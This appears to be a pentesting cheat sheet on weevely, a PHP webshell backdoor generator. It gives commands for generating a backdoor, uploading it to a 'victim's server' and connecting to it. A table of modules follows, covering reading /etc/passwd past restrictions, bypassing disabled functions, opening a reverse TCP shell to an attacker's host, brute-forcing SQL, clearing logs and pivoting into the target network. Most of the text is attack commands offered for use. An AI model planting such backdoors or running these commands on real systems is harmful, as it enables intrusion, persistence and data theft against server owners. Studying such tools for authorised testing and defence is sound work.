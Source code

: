 ```yaml
---
title: weevely - PHP webshell backdoor generator
draft: false
TableOfContents: true
tag: pentesting, web pentesting, enumeration
---
```



# weevely

Weevely is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

```bash

# Generate backdoor agent
weevely generate <password> <path/to/save/your/phpBackdoorNamefile.php>
#generate is for generating a backdoor
# password to access the file

# Then, you upload the file into the victim's server and use weevely to connect
# Run terminal to the target
 weevely <URL> <password> [cmd]


# Load session file
weevely session <path>


```

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

+ Read the [Install](https://github.com/epinna/weevely3/wiki/Install) page to install weevely and its dependencies.
+ Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.
+ Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.


## weevely commands

``` weevely
# Cray for Help
weevely> help
```

In an attack you will probably need:

```
# Read /etc/passwd with different techniques. Nice touch here is that weevely can bypass some restriction introduced in "cat /etc/passwd". For that it uses the attribute -vector
:audit_etcpasswd            
# -vector: posix_getpwuid, file, fread, file_get_contents, base64

# Collect system information
:system_info

# Audit the file system for weak permissions.
:audit_filesystem

# Execute shell commands, BUT the cool part is that it bypasses the inability to run a bash command by tunnelling into a different language command. To see available languages, use the attribute -h
:shell_sh -vector <VectorValue> <Command>
# -vector With attribute vector you can choose to execute bash through php, python...

# Download file from remote filesystem.
:file_download -vector <VECTORValue> <rpath> <lpath>
# -vector: file, fread, file_get_contents, base64
# rpath: remote path of the file you want to download
# lpath: location where you want to save it


# Upload file to remote filesystem.
:file_upload 

# Execute a reverse TCP shell.
:backdoor_reversetcp -shell <SHELLType> -npo-autonnet -vector <VALUEofVector> <LHOST> <LPORT> 
:backdoor_reversetcp -h
```


## weevely complete list of commands

| Module                      | Description  |
| --------------------------- | ------------------------------------------ |
| :audit_filesystem           | Audit the file system for weak permissions. |
| :audit_suidsgid             |  Find files with SUID or SGID flags. |
| :audit_disablefunctionbypass|  Bypass disable_function restrictions with mod_cgi and .htaccess. |
| :audit_etcpasswd            |  Read /etc/passwd with different techniques. |
| :audit_phpconf              |  Audit PHP configuration. |
| :shell_sh                   |  Execute shell commands. |
| :shell_su                   |  Execute commands with su. |
| :shell_php                  |  Execute PHP commands. |
| :system_extensions          |  Collect PHP and webserver extension list. |
| :system_info                |  Collect system information. |
| :system_procs               |  List running processes. |
| :backdoor_reversetcp        |  Execute a reverse TCP shell. |
| :backdoor_tcp               |  Spawn a shell on a TCP port. |
| :bruteforce_sql             |  Bruteforce SQL database. |
| :file_gzip                  |  Compress or expand gzip files. |
| :file_clearlog              |  Remove string from a file. |
| :file_check                 |  Get attributes and permissions of a file. |
| :file_upload                |  Upload file to remote filesystem. |
| :file_webdownload           |  Download an URL. |
| :file_tar                   |  Compress or expand tar archives. |
| :file_download              |  Download file from remote filesystem. |
| :file_bzip2                 |  Compress or expand bzip2 files. |
| :file_edit                  |  Edit remote file on a local editor. |
| :file_grep                  |  Print lines matching a pattern in multiple files. |
| :file_ls                    |  List directory content. |
| :file_cp                    |  Copy single file. |
| :file_rm                    |  Remove remote file. |
| :file_upload2web            |  Upload file automatically to a web folder and get corres |ponding URL.
| :file_zip                   |  Compress or expand zip files. |
| :file_touch                 |  Change file timestamp. |
| :file_find                  |  Find files with given names and attributes. |
| :file_mount                 |  Mount remote filesystem using HTTPfs. |
| :file_enum                  |  Check existence and permissions of a list of paths. |
| :file_read                  |  Read remote file from the remote filesystem. |
| :file_cd                    |  Change current working directory. |
| :sql_console                |  Execute SQL query or run console. |
| :sql_dump                   |  Multi dbms mysqldump replacement. |
| :net_mail                   |  Send mail. |
| :net_phpproxy               |  Install PHP proxy on the target. |
| :net_curl                   |  Perform a curl-like HTTP request. |
| :net_proxy                  |  Run local proxy to pivot HTTP/HTTPS browsing through the | target.
| :net_scan                   |  TCP Port scan. |
| :net_ifconfig               |  Get network interfaces addresses. |
